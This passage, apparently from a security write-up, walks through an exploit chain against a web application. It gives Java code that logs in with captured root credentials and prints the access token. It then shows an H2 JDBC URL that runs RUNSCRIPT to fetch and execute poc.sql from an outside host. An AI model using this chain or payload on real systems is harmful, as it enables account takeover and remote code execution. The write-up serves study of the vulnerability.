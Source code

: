 ```
            int responseCode3 = con3.getResponseCode();
            System.out.println("[*] Root Login Response Code: " + responseCode3);
            BufferedReader in3 = new BufferedReader(new InputStreamReader(con3.getInputStream()));
            String inputLine3;
            StringBuffer response3 = new StringBuffer();
            while ((inputLine3 = in3.readLine()) != null) {
                response3.append(inputLine3);
            }
            in3.close();
            JSONObject jsonObject3 = new JSONObject(response3.toString());
            JSONObject model3 = jsonObject3.getJSONObject("model");
            String accessToken3 = model3.getString("accessToken");
            System.out.println("[*] Root Access Token: " + accessToken3);
```

Here we created a new `Http` Object named `con3` and used the same `URL` for login, In short, We copied the first login request but replaced the login credentials with the one we obtained from the first login process and parsed the new `accessToken` returned as a results from the `root` account authentication & Stored it in `accessToken3` variable and printed it out.

![](/assets/images/d9105296b6f6c821f50d2df9e012139f)

Here as we can see it's done successfully and Retrieved the token based on the `root` account.

## **Achieve RCE**

Now, You may be wondering, If we have the `root` account credentials, Why we would need to Retrieve it's token ?. So, Basically to perform a connection throug the `JDBC` we need high-privileges and to automate this process let's see how it works first.

&nbsp;

![](/assets/images/dca34df301e10d7d6603820a469e99cd)

  
As you can see when we logged-in as `guest` we are not able to add any data source. But, If we login with the `root` account. We can see that we have the privileges to add data source and test the connection

![](/assets/images/ec2f7d061af25c788d4c7798b12f36fa)

&nbsp;

Now, Under the Event Tracer Data Source click on `Add` button and add the following:

![](/assets/images/668b686db6b362a05506f578236eaf4d)

  
What did we done here?. We named Our data source, then used the `h2 driver` the `H2` itself is a relational database management system, and the `org.h2.driver` is a `JDBC` driver used to connect to an `H2` database from Java. The `URL` value:

```
jdbc:h2:mem:testdb;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://192.168.0.162:8000/poc.sql'
```
